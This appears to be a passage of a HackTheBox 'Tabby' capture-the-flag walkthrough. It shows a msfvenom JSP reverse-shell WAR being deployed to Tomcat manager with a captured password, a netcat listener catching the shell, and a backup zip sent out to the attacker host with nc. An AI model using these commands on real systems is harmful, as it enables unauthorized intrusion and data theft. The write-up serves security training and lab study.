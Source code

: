 Deployt a war file at `http://localhost:8080/manager/text/deploy?path=/foo`

This link [tomcat manager deploy](https://gist.github.com/pete911/6111816) guide how to deploy with `curl`.

`curl --upload-file appplication-0.1-1.war "http://tomcat:tomcat@localhost:8080/manager/deploy?path=/application-0.1-1`

First, I create `shell.war` using msfvenom

```
┌──(Hades㉿10.10.14.5)-[0.5:29.1]~/walkthrough/hackthebox/tabby
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war > shell.war
Payload size: 1100 bytes
Final size of war file: 1100 bytes
```

Using curl to upload shell file to server with knowed credential.
```
┌──(Hades㉿10.10.14.5)-[0.5:29.2]~/walkthrough/hackthebox/tabby
└─$ curl -u 'tomcat:$3cureP4s5w0rd123!' --upload-file shell.war 'http://megahosting.htb:8080/manager/text/deploy?path=/shell'
OK - Deployed application at context path [/shell]
```

Execute shell at url `http://megahosting.htb:8080/shell/`.

```
┌──(Hades㉿10.10.14.5)-[0.5:30.1]~/walkthrough/hackthebox/tabby
└─$ curl http://megahosting.htb:8080/shell/
```

At listener, I have reverse shell.

```
┌──(Hades㉿10.10.14.5)-[0.5:29.2]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.194] 54320
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

## Privilege Escalation

### Zip Password Cracking

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/tabby)

After do some local enum in the server, I found a backup file at `/var/www/html/files`

```
tomcat@tabby:/var/www/html$ ls
assets  favicon.ico  files  index.php  logo.png  news.php  Readme.txt
tomcat@tabby:/var/www/html$ cd files
tomcat@tabby:/var/www/html/files$ ls
16162020_backup.zip  archive  revoked_certs  statement
tomcat@tabby:/var/www/html/files$ nc -nv 10.10.14.5 445 < 16162020_backup.zip
2021/04/08 04:16:19 CMD: UID=997  PID=62575  | nc -nv 10.10.14.5 445 
Connection to 10.10.14.5 445 port [tcp/*] succeeded!
```
